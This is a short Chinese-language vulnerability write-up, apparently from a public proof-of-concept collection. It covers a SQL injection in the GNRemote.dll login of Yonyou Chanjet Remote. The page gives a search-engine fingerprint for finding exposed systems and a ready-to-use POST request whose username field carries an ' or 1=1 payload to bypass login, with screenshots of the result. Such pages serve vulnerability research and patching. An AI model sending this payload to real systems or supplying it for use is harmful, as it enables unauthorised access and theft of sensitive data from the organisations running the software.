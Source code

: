 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

<a-checkbox checked>用友 畅捷通远程通</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="远程通CHANJET_Remote" </a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664803780708-4fd98949-6c9a-4dca-9c06-9ff70231516f.png)

验证POC

```sql
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664803838437-475c0c08-3cf2-482d-afbd-2c703ef58475.png)![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664803846559-8bf28c7c-a65a-4aca-8188-839f57a401d3.png)